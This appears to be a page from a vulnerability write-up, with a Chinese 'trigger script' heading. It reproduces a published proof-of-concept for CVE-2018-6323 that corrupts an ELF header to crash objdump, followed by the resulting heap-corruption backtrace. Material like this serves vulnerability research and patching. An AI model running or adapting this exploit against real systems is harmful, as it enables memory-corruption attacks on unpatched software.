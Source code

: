 ### 3. 触发脚本

``` python
# Exploit Title: Objdump - Integer Overflow Crash POC
# Date: 12.02.2018
# Exploit Author: r4xis
# Tested Version: 2.26.1
# Vuln Version: <2.29.1
# CVE: cve-2018-6323
# Tested on: Ubuntu 16.04 32-bit 
# Vulnerability Details: 
# https://www.cvedetails.com/cve/CVE-2018-6323/
# https://sourceware.org/bugzilla/show_bug.cgi?id=22746


import os

hello = "#include<stdio.h>\nint main(){printf(\"HelloWorld!\\n\"); return 0;}"
f = open("helloWorld.c", 'w')
f.write(hello)
f.close()

os.system("gcc -c helloWorld.c -o test")
# file test
# test: ELF 32-bit LSB relocatable, Intel 80386, version 1 (SYSV), not stripped

f = open("test", 'rb+')
f.read(0x2c)
f.write("\xff\xff") # 65535
f.read(0x244-0x2c-2)
f.write("\x00\x00\x00\x20") # 536870912
f.close()
# readelf -h test
# Number of program headers:         65535 (536870912)

os.system("objdump -x test; rm -r helloWorld.c test")
```

``` shell
┳━hsu@ubuntu ~/Desktop   21:40:19
┻━━$ python exp.py
objdump: test: File truncated
*** Error in `objdump': free(): invalid pointer: 0x0852faa8 ***
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(+0x67377)[0xb7db0377]
/lib/i386-linux-gnu/libc.so.6(+0x6d2f7)[0xb7db62f7]
/lib/i386-linux-gnu/libc.so.6(+0x6dc31)[0xb7db6c31]
objdump[0x814feab]
objdump[0x8096c10]
objdump[0x80985fc]
objdump[0x8099257]
objdump[0x8052791]
objdump[0x804c1af]
/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf7)[0xb7d61637]
objdump[0x804c3ca]
======= Memory map: ========
08048000-08245000 r-xp 00000000 08:01 131682     /usr/local/bin/objdump
08245000-08246000 r--p 001fc000 08:01 131682     /usr/local/bin/objdump
08246000-0824b000 rw-p 001fd000 08:01 131682     /usr/local/bin/objdump
0824b000-08250000 rw-p 00000000 00:00 0
0852e000-0854f000 rw-p 00000000 00:00 0          [heap]
b7a00000-b7a21000 rw-p 00000000 00:00 0
b7a21000-b7b00000 ---p 00000000 00:00 0
b7b15000-b7b31000 r-xp 00000000 08:01 654746     /lib/i386-linux-gnu/libgcc_s.so.1
```